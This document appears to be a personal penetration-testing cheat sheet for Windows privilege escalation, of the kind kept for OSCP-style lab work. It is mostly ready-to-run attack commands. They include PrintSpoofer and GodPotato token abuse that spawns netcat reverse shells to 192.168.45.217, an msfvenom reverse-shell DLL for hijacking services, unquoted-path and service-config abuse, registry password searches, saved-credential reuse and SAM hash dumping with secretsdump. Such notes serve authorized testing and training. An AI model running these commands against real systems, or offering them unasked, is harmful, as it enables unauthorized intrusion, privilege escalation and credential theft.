 ###  Privilege Token Abusing 

Do you have any token privileges that could be abused?

```
#User
whoami /priv

	#Print Spoof
	.\PrintSpoofer64.exe -i -c powershell.exe
	.\PrintSpoofer64.exe -i -c "nc -t -e C:\Windows\System32\cmd.exe 192.168.45.217 4444"
	
	#God Potato
	.\GodPotato-NET4.exe -cmd "powershell.exe"
	.\GodPotato-NET4.exe -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.45.217 4444"
```


### Search for Information

Is there any interesting abnormal system files or folders that need to be enumerated?
##### Searching Folders
```
#Specific File Types
Get-ChildItem -Path C:\<folder>\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini, *bk, *backup*, -File -Recurse -ErrorAction SilentlyContinue

#All Files in Folder
Get-ChildItem -Path C:\<folder>\ -File -Recurse -ErrorAction SilentlyContinue

#Specific file name
Get-ChildItem -Path C:\ -Filter '<filename>' -File -Recurse -ErrorAction SilentlyContinue

#Keepass Database
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

### Service Exploiting
https://steflan-security.com/windows-privilege-escalation-weak-permission/
#### Insecure Service Permissions
Is there any service that have permissions to change the configuration?
```
#We want the "SERVICE_CHANGE_CONFIG" set.
sc.exe qc <service>

#Modify that config and add path t
```

Is there any unquoted service paths?
##### Unquoted Service Paths
```
#To see unquoted services
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
Get-WmiObject -Class Win32_Service | Where-Object { $_.State -eq 'Running' -and $_.PathName -notlike '*"*' } | Select-Object Name, PathName

#To see if we can stop/start service
net stop <service>

#To see if we can write to the path.
icacls "C:\<folder>\"
```


##### Scheduled Tasks
```
schtasks /query /fo LIST /v
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName, TaskPath, State
```
##### Startup Apps

```
#If we can modify this directroy and add a shell. Then restart system.
 .\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```
##### Shutting Down System
```
#Check SeShutdownPrivilege enabled
whoami /priv  

#Shuts system down
shutdown /r /t 0
```

##### Service Enumeration
```
#Services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

$AutoRun Services
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.StartMode -like 'Auto'}
```
##### Checking Permissions
```
#Check file and folder
icacls "C:\<service.exe>"
icacls "C:\<folder>\"

#check service start / stop
net stop <service_name>
Stop-Service <service_name>
```
##### Service Configuration Writable
```
#See configuration
sc.exe qc <service_name>

#Modify Configuration
sc.exe config <service_name> <option>= <value>
```
##### DLL Hijacking
```
1. Check can service be stopped and started.
2. Copy the service executable to your host and use ProcMon to monitor what DLLs the executable tries to run.
	Filter NAME NOT FOUND
	Filter .DLL
3. Check folder or path it is searching is writable.
4. Upload malicious executable. (msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f dll -o /tools/hijackme.dll)
5. Restart the service.
```
### Kernel Exploits

```
Methodology
1. Enumerate Windows version / patch level. (systeminfo)
2. Find matching exploits. (Google, ExploitDB, GitHub)
3. Compile and run.

Tools
- Windows Exploit Suggester - wesng
- Precompiled Kernel Exploits - SecWiki
- Watson - rasta-mouse

Notes
- Be careful these can be unstable and may crash the system.
```

### Credential Harvesting

##### Registry
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
##### History
```
Get-History
(Get-PSReadlineOption).HistorySavePath
```
##### Saved Creds
```
cmdkey /list
run as /savecred /user:<username> <reverse_shell>
```
##### SAM / HIVE
```
https://book.hacktricks.xyz/windows-hardening/stealing-credentials#stealing-sam-and-system

impacket-secretsdump -sam SAM -system SYSTEM LOCAL

#Remember when passing hashes to do both lm and nt eg.  XXXXX:XXXXX
```

### Automation
```
winPEAs
ADPEAs
```